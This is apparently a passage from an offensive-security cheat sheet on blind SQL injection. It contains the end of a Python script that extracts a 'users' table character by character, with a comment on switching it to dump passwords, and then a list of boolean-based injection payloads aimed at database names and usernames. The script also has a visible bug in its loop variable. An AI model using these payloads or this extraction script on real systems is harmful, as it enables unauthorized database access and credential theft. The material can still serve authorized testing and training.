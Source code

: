 	raise Exception(f"Unable to get character at offset ({offset}) on line {line}")
	
if __name__ == "__main__":
	try: 
		# Get the total number of rows to dump
		columnCount = rowCount("users")
		# To retrieve passwords, replace "username" by "password" or whatever the pwd field is named
		for row in range(0, rowCount):
			# Get the length of the current row
			length = columnLength("users", "username", row)
			# Loop over each character in the row
	  		for offset in range(1, length+1):
	  			print(columnData("users","username", offset, row), end='', flush=True)
	  		print()
	except Exception as e:
		print(e)


# It might be blind, see differences and write a script if so
' or 1=1 -- -
' or 2=1 -- -
' or 'a'='a' -- -
' or (select 'a')='a' -- -
# If above works, we send the following payload to Intruder and try to find the first database char which would mean our payload works
' or (select substring(database(),1,1))='a' -- - 

' or (select substring(username, 1, 1) from users limit 1)='a' -- -
<strong>
</strong><strong># Then write a script if necessary
</strong><strong>
</strong>test%' AND 3673=3673 AND 'fIaw%'='fIaw
<strong>
</strong><strong>1' and true -- -
</strong>1' and false -- -
1' AND 1=1 --+
1' AND 1=0 --+
admin' AND 1=1 -- //
" AND 1=1
# Parentheses
0) AND (1=1
0) AND (1=0
